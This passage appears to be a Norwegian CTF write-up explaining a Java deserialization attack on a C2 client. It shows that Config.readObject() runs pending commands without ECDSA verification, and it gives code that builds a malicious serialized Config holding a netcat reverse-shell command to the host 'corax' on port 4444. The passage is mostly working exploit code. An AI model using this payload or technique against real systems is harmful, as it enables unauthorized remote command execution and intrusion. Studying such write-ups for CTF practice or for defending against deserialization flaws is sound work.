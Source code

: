 I Config.java er det en `readObject()` funksjon som håndterer hvordan et Config-objekt skal leses inn.
I denne ser vi at den går gjennom alle `pendingCommands`, og kjører de hvis tiden er inne. Dette skjer da altså uten noe som helst verifikasjon gjennom ECDSA.

```java
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
    id = ois.readUTF();
    sleepDuration = ois.readInt();
    serverURL = ois.readUTF();
    pendingCommands = new ArrayList<Command>();
    Instant now = Instant.now();
    int pendingCommandsSize = ois.readInt();
    for (int i = 0; i < pendingCommandsSize; i++) {
        Command c = (Command) ois.readObject();
        if (c.runAfter.isBefore(now))
            c.execute(System.out, this);
        else
            pendingCommands.add(c);
    }
}
```

Klienten mottar kommandoer gjennom `checkInWithC2()` funksjonen til `Client.java`, mer spesifikt disse to linjene:

```java
ObjectInputStream in = new ObjectInputStream(conn.getInputStream());
Command c = (Command) in.readObject();
```

Selv om det mottatte objektet blir kastet til et `Command` object, så vil `readObject()` bli eksekvert før dette.
Det spiller da ingen rolle om denne kastingen feiler, vi bryr oss bare om hva som skjer i `readObject()`.

For å lage det ondsinnede Config-objektet så modifiserte jeg `Client.java` fra kildekoden:

```java
public static void make_config() {

    Command maliciousCommand = new commands.Execute();
    maliciousCommand.recipient = "DEADBEEFDEADBEEF";
    maliciousCommand.runAfter = Instant.now();
    maliciousCommand.value = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc corax 4444 >/tmp/f";

    Config maliciousConfig = new Config();
    maliciousConfig.id = "DEADBEEFDEADBEEF";
    maliciousConfig.serverURL = "http://vg.no";
    maliciousConfig.sleepDuration = 69;
    maliciousConfig.pendingCommands.add(maliciousCommand);

    try {
        FileOutputStream fos = new FileOutputStream("malicious_config");
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(maliciousConfig);
        oos.close();
        fos.close();
    } catch (IOException e) {
        e.printStackTrace();
    }
}

public static void main(String[] args) {

    make_config();
```
